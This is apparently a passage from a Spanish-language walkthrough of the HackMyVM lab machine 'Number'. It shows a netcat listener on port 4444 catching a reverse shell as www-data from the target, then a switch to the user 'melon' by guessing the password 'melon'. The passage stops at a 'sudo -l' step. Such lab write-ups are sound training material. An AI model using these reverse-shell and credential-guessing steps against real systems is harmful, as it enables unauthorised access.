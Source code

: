 Como vemos nos ha dado el resultado en decimal de la `IP` `192.168.1.111`, pero antes de poner la `IP` en el panel que hemos descubierto debemos ver el puerto por el que nos llega, para ello utilizaré **`WireShark`**:

![decimalLaunch](/assets/img/imgs/number/decimalLaunch.png)

![wireshark](/assets/img/imgs/number/wireshark.png)

Como podéis ver nos está llegando por el puerto **`4444`**, por tanto ya estamos preparados para ponernos en escucha por el puerto descubierto y conseguir una **`Shell`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Number]
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Tras enviar de nuevo la petición con la `IP` en decimal recibimos al instante la conexión:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Number]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.1.111] from (UNKNOWN) [192.168.1.117] 38168
www-data@number:~/html/admin$
```

¡Estupendo! Ya estamos en la máquina, podemos pasar al siguiente paso para obtener el **control total** de la máquina.

### Subida de privilegios #1
Este paso es muy sencillo, por tanto será corto, pero os contaré mi experiencia.

Tras estar bastante rato mirando fichero tras fichero no llegué a nada, traté de buscar la contraseña del usuario `melon` bastante rato, pero nada, que no estaba.

Tras estar casi veinte minutos buscando probé "`melon`" como contraseña, y bueno, este es el resultado:

```sh
www-data@number:~$ su melon
Password: melon
melon@number:/var/www$
```

La verdad es que me reí un rato, ya que lo que menos te esperas es la respuesta. En fin, pasemos al siguiente paso.

### Subida de privilegios #2
Para este paso miraré los comandos que puede realizar el usuario `melon`, para ello utilizaré `sudo -l`:
